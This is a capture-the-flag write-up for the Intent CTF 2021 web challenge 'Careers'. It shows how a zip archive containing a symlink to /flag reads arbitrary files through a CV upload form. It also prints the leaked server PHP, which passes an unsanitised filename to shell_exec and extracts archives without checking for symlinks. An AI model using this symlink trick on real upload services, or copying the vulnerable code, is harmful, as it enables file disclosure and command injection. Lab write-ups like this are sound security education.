



# Intent CTF 2021 - Writeups - Careers

Category: Web, Points: 100


# Careers  - Solution

Let's browse to the URL from challenge description [https://careers.chal.intentsummit.org/](https://careers.chal.intentsummit.org/):



By browsing to [Careers](https://careers.chal.intentsummit.org/careers.php) we get an option to upload our CV using txt format only, archived using zip format. 



Let's create a zip file with a text file:
```console
┌─[evyatar9@parrot]─[/intent_ctf/web/careers]
└──╼ $ cat test.txt
evyatar9@parrot
┌─[evyatar9@parrot]─[/intent_ctf/web/careers]
└──╼ $ zip test.zip *
```

By uploading this zip file we get the following page:


And by browsing to the link [https://careers.chal.intentsummit.org/upload/ce2270b76ec1cd760603f48582f205b9](https://careers.chal.intentsummit.org/upload/ce2270b76ec1cd760603f48582f205b9) we get:


And by clicking on [https://careers.chal.intentsummit.org/upload/ce2270b76ec1cd760603f48582f205b9/test.txt](https://careers.chal.intentsummit.org/upload/ce2270b76ec1cd760603f48582f205b9/test.txt) we get our text as expected.

Meaning that the web server make a ```md5sum``` on our zip file which is ```ce2270b76ec1cd760603f48582f205b9``` and extract the files into this directory.

Because we can create a zip file with ```symlink``` include we can get the flag by creating a ```symlink``` to the ```/flag``` file as follow:
```console
┌─[evyatar9@parrot]─[/intent_ctf/web/careers]
└──╼ $ ls
┌─[evyatar9@parrot]─[/intent_ctf/web/careers]
└──╼ $ ln -s /flag test.txt 
┌─[evyatar9@parrot]─[/intent_ctf/web/careers]
└──╼ $ zip --symlinks sym.zip *
  adding: test.txt (stored 0%)
```

And by uploading this file we get:


And if we are clicking on [https://careers.chal.intentsummit.org/upload/28503d5c9ef626afe76d5a03d62445ad/test.txt](https://careers.chal.intentsummit.org/upload/28503d5c9ef626afe76d5a03d62445ad/test.txt) we get the flag:



Which is ```INTENT{zipfiles_are_awsome_for_pt}```.


We can create also a ```symlink``` to ```index.php```, ```careers.php``` to understand the attack.

```careers.php``` (```ln -s /var/www/html/careers.php test.txt```):
```php
<!doctype html>
<html lang="en">
  <head>
    <!-- Required meta tags -->
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">

    <!-- Bootstrap CSS -->
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-1BmE4kWBq78iYhFldvKuhfTAU6auU8tT94WrHftjDbrCEXSU1oBoqyl2QvZ6jIW3" crossorigin="anonymous">

    <title>V1R3F0 Team</title>
  </head>
  <body>
  
<div class="container">
    <header class="d-flex flex-wrap justify-content-center py-3 mb-4 border-bottom">
      <a href="/" class="d-flex align-items-center mb-3 mb-md-0 me-md-auto text-dark text-decoration-none">
        <span class="fs-4">V1R3F0 Team</span>
      </a>

      <ul class="nav nav-pills">
        <li class="nav-item"><a href="index.php" class="nav-link">Home</a></li>
        <li class="nav-item"><a href="careers.php" class="nav-link">Careers</a></li>
      </ul>
    </header>
  </div>
  


<?php

function endsWith($string, $endString)
{
    $len = strlen($endString);
    if ($len == 0) {
        return true;
    }
    return (substr($string, -$len) === $endString);
}

if (isset($_POST["btn_zip"]))
{
    $output = '';
    if ($_FILES['zip_file']['name'] != '')
    {
        $file_name = $_FILES['zip_file']['name'];
		
		$tmp_file = $_FILES['zip_file']['tmp_name'];
		
        $path = '//var//www//html//upload//';
        $array = explode(".", $file_name);
        $name = $array[0];
        $ext = $array[1];
        $file_md5 = md5_file($tmp_file);
        $extractPath = $path . $file_md5;
        $zipLocation = $extractPath . "//" . $file_name;
		
		
		if(file_exists($extractPath))
		{
			unlink($tmp_file); // remove zip file
			$output = $file_md5;
		}else{
			if ($ext == 'zip')
			{
				$location = $path . $file_name;
				mkdir($extractPath);
				if (move_uploaded_file($tmp_file, $zipLocation))
				{
					shell_exec('unzip '.$zipLocation. ' -d ' .$extractPath);
					
					$files = glob($extractPath.'/*');
					foreach($files as $filename){
						if(is_file($filename)){
							if (!endsWith($filename, ".txt")){
								unlink($filename);
							}
						}
					}
					copy("//var//www//html//template.php", $extractPath."//index.php");
				}
			$output = $file_md5;
			}else{
			$output = "ERROR";
			}
		}
	}
}
?> 

<div class="bg-dark text-secondary px-4 py-5 text-center">
    <div class="py-5">
      <h1 class="display-5 fw-bold text-white">Careers, CV Upload Page</h1>
      <div class="col-lg-6 mx-auto">
        <p class="fs-5 mb-4">Upload your CV using txt format only, please archive the files using zip format.</p>
        <form method="post" enctype="multipart/form-data"> 
		<input type="file" name="zip_file" />
		<br /> <br /> 
		<input type="submit" name="btn_zip" class="btn btn-info" value="Upload" />  
      </div>
    </div>
	<p>
		<?php
		if(isset($output) && $output != "ERROR" )
		{
			echo '<p class="fs-5 mb-4">Thank you!, our recruiter will contact you ASAP, your candinate ID is: '.$output.',
			<br/><a href="./upload/' .$output.'" class="link-success">'.$output.' Files</a></p>';

		}
		?>
	</p>
  </div>


<div class="container">
  <footer class="py-3 my-4">
    <ul class="nav justify-content-center border-bottom pb-3 mb-3">
      <li class="nav-item"><a href="index.php" class="nav-link px-2 text-muted">Home</a></li>
      <li class="nav-item"><a href="careers.php" class="nav-link px-2 text-muted">Careers</a></li>
    </ul>
    <p class="text-center text-muted">© 2021 Company, Inc</p>
  </footer>
</div>


    <!-- Optional JavaScript; choose one of the two! -->

    <!-- Option 1: Bootstrap Bundle with Popper -->
    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js" integrity="sha384-ka7Sk0Gln4gmtz2MlQnikT1wXgYsOg+OMhuP+IlRH9sENBO0LRn5q+8nbTov4+1p" crossorigin="anonymous"></script>

    <!-- Option 2: Separate Popper and Bootstrap JS -->
    <!--
    <script src="https://cdn.jsdelivr.net/npm/@popperjs/core@2.10.2/dist/umd/popper.min.js" integrity="sha384-7+zCNj/IqJ95wo16oMtfsKbZ9ccEh31eOz1HGyDuCQ6wgnyJNSYdrPa03rtR1zdB" crossorigin="anonymous"></script>
    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.min.js" integrity="sha384-QJHtvGhmr9XOIpI6YVutG+2QOK9T+ZnN4kzFN1RtK3zEFEIsxhlmWl5/YESvpZ13" crossorigin="anonymous"></script>
    -->
  </body>
</html>
```

And ```template.php``` (```ln -s /var/www/html/template.php test.txt```):
```php
<!doctype html>
<html lang="en">
  <head>
    <!-- Required meta tags -->
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">

    <!-- Bootstrap CSS -->
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-1BmE4kWBq78iYhFldvKuhfTAU6auU8tT94WrHftjDbrCEXSU1oBoqyl2QvZ6jIW3" crossorigin="anonymous">

    <title>V1R3F0 Team</title>
  </head>
  <body>
  
<div class="container">
    <header class="d-flex flex-wrap justify-content-center py-3 mb-4 border-bottom">
      <a href="../../" class="d-flex align-items-center mb-3 mb-md-0 me-md-auto text-dark text-decoration-none">
        <svg class="bi me-2" width="40" height="32"><use xlink:href="#bootstrap"></use></svg>
        <span class="fs-4">V1R3F0 Team</span>
      </a>

      <ul class="nav nav-pills">
        <li class="nav-item"><a href="../../index.php" class="nav-link">Home</a></li>
        <li class="nav-item"><a href="../../careers.php" class="nav-link">Careers</a></li>
      </ul>
    </header>
  </div>


<div class="bg-dark text-secondary px-4 py-5 text-center">
    <div class="py-5">
      <h1 class="display-5 fw-bold text-white">Hello Candidate, your uploaded files:</h1>
      <div class="col-lg-6 mx-auto">
	  	  <?php
			foreach (scandir('.') as $file){
				if ($file != '.' && $file != '..' && $file != 'index.php'){
					echo '<a href="./'.$file.'" class="link-danger">'.$file.'</a><br/>';
					}
				}
			?>
      </div>
    </div>
  </div>


<div class="container">
  <footer class="py-3 my-4">
    <ul class="nav justify-content-center border-bottom pb-3 mb-3">
      <li class="nav-item"><a href="../../index.php" class="nav-link px-2 text-muted">Home</a></li>
      <li class="nav-item"><a href="../../careers.php" class="nav-link px-2 text-muted">Careers</a></li>
    </ul>
    <p class="text-center text-muted">© 2021 Company, Inc</p>
  </footer>
</div>


    <!-- Optional JavaScript; choose one of the two! -->

    <!-- Option 1: Bootstrap Bundle with Popper -->
    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js" integrity="sha384-ka7Sk0Gln4gmtz2MlQnikT1wXgYsOg+OMhuP+IlRH9sENBO0LRn5q+8nbTov4+1p" crossorigin="anonymous"></script>

    <!-- Option 2: Separate Popper and Bootstrap JS -->
    <!--
    <script src="https://cdn.jsdelivr.net/npm/@popperjs/core@2.10.2/dist/umd/popper.min.js" integrity="sha384-7+zCNj/IqJ95wo16oMtfsKbZ9ccEh31eOz1HGyDuCQ6wgnyJNSYdrPa03rtR1zdB" crossorigin="anonymous"></script>
    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.min.js" integrity="sha384-QJHtvGhmr9XOIpI6YVutG+2QOK9T+ZnN4kzFN1RtK3zEFEIsxhlmWl5/YESvpZ13" crossorigin="anonymous"></script>
    -->
  </body>
</html>
```